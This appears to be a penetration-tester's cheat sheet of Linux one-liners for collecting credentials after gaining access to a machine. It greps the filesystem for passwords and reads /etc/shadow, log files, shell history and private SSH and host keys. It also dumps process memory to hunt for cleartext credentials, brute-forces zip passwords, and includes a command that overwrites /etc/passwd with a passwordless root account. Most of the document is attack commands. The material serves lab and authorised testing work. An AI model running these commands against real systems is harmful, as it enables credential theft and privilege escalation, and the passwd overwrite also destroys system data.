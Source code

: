 # User and Password One-Liners

## Files With "passw" String 
```
find / -type f -readable -size +0 2>/dev/null | grep -Hi passw 
grep -r -l -i -I passw /  
```

## Plaintext Usernames or Passwords? 
```
grep -i user [filename] 
grep -i pass [filename] 
grep -C 5 "password" [filename] 
```
- For Joomla
```
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password" 
```

## Files Generally With Plaintext / Easily-Reversible Passwords
```
less /var/apache2/* 
cat /root/anaconda-ks.cfg 
strings /var/lib/mysql/mysql/user.MYD 
cat /root/anaconda-ks.cfg 
```
## Users With No Password Set 
```
cut -f1-2 -d':' /etc/passwd | grep -v ':x$' 
```

## Super Users 
```
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}' 
awk -F: '($3 == "0") {print}' /etc/passwd
```

# User and Password Hashes

## Background
- /etc/passwd contains users of the machine. If we filter for just the users that have /bin/bash or /bin/sh as their default program upon login, then we can get a list of interactive machine users.
```
Cat /etc/passwd | grep /bin/bash 
Cat /etc/passwd | grep /bin/sh 
grep -vE "nologin" /etc/passwd 
```
- /etc/shadow has the password hashes and is only readable by root unless it's misconfigured to allow other users to read it.
### Hash Syntax 
  - First 3 chatcyers identify the algorithm used.  
  ```
  1$	      MD5 
  $2a$	    Blowfish 
  $2y$	    Blowfish 
  $5$	      SHA-256 
  $6$	      SHA-512 
  ```
  - The next characters are the salt which preceded the next $. 
  - The string after the middle $ is the password hash value.

## Attack Vector
1. Try easy passwords for trying to su to other interactive users.  
2. Display the permissions of the shadow file to see if we or a non-root user can display the hash contents.  Then crack the hash. 
3. Display the permissions of the /etc/ passwd file. If it is writable by the current user then you can overwrite the file to add a new root user without a password required.  
```
echo root::0:0:root:/root:/bin/bash > /etc/passwd 
```
  - Usually there's an X after the username to signify a password is required. When it is omitted (like this example), you can su to root without a password.

## Passwords in Memory of Running Applications

### Background
- Credentials can be stored in cleartext in memory of already running applications.
- Access to memory space of running applications is possible when it is within the same user context.

### Attack Vector
- Write running process memory space to a file.  Then search for credential data. 
- GDB 
```
#gdb -p <pid>  
info proc mappings 
Dump memory <outfile> <start memory region > <stop memory region> 
```
- GCore 
```
gcore -o <outfile> <pid>
```

## History and Logs

### Background
- Sometimes credentials can be saved in the history or log files of programs or the OS.

### Attack Vector
- Bash History
  - Provides history functionality that stores previous bash commands. 
  - Automatically created in user home directory. 
   ```
    cat  ~/.bash_history
    ```
- Logs
  - Check for file permissions being set incorrectly for logs that we can read.  
  - Common location for logs is
  ```
  /var/log/
  ```
  - Common direct paths 
  ```
  cat /etc/httpd/logs/access_log 
  cat /etc/httpd/logs/access.log 
  cat /etc/httpd/logs/error_log 
  cat /etc/httpd/logs/error.log 
  cat /var/log/apache2/access_log 
  cat /var/log/apache2/access.log 
  cat /var/log/apache2/error_log 
  cat /var/log/apache2/error.log 
  cat /var/log/apache/access_log 
  cat /var/log/apache/access.log 
  cat /var/log/auth.log 
  cat /var/log/chttp.log 
  cat /var/log/cups/error_log 
  cat /var/log/dpkg.log 
  cat /var/log/faillog 
  cat /var/log/httpd/access_log 
  cat /var/log/httpd/access.log 
  cat /var/log/httpd/error_log 
  cat /var/log/httpd/error.log 
  cat /var/log/lastlog 
  cat /var/log/lighttpd/access.log 
  cat /var/log/lighttpd/error.log 
  cat /var/log/lighttpd/lighttpd.access.log 
  cat /var/log/lighttpd/lighttpd.error.log 
  cat /var/log/messages 
  cat /var/log/secure 
  cat /var/log/syslog 
  cat /var/log/wtmp 
  cat /var/log/xferlog 
  cat /var/log/yum.log 
  cat /var/run/utmp 
  cat /var/webmin/miniserv.log 
  cat /var/www/logs/access_log 
  cat /var/www/logs/access.log 
  ls -alh /var/lib/dhcp3/ 
  ls -alh /var/log/postgresql/ 
  ls -alh /var/log/proftpd/ 
  ls -alh /var/log/samba/ 
  ```
  - Other applications if they're installed 
  ```
  cat ~/.nano_history 
  cat ~/.atftp_history 
  cat ~/.mysql_history 
  cat ~/.php_history 
  ```

## Passwords in Configuration Files
```
cat /var/apache2/config.inc 
cat /var/lib/mysql/mysql/user.MYD 
cat /root/anaconda-ks.cfg 
Grep RiIn passw / 2>/Dev/null 
```
- List web server config files  
```
ls -alR /var/www/ 
ls -alR /srv/www/htdocs/  
ls -alR /usr/local/www/apache22/data/ 
ls -alR /opt/lampp/htdocs/ 
```

## .History Files For Credentials to Re-Use
```
cat ~/.bash_history 
cat ~/.nano_history 
cat ~/.atftp_history 
cat ~/.mysql_history 
cat ~/.php_history 
```

# Private Key Information
```
cat ~/.ssh/authorized_keys 
cat ~/.ssh/identity.pub 
cat ~/.ssh/identity 
cat ~/.ssh/id_rsa.pub 
cat ~/.ssh/id_rsa 
cat ~/.ssh/id_dsa.pub 
cat ~/.ssh/id_dsa 
cat /etc/ssh/ssh_config 
cat /etc/ssh/sshd_config 
cat /etc/ssh/ssh_host_dsa_key.pub 
cat /etc/ssh/ssh_host_dsa_key 
cat /etc/ssh/ssh_host_rsa_key.pub 
cat /etc/ssh/ssh_host_rsa_key 
cat /etc/ssh/ssh_host_key.pub 
cat /etc/ssh/ssh_host_key
```

# Password-Protected Zip Files (ippsec=Node)
- Sometimes you find zip files that are password protected.  You can brute force this password with fcrackzip.
```
fcrackzip -D -p [password file] [zip file needing the PW cracked]
```
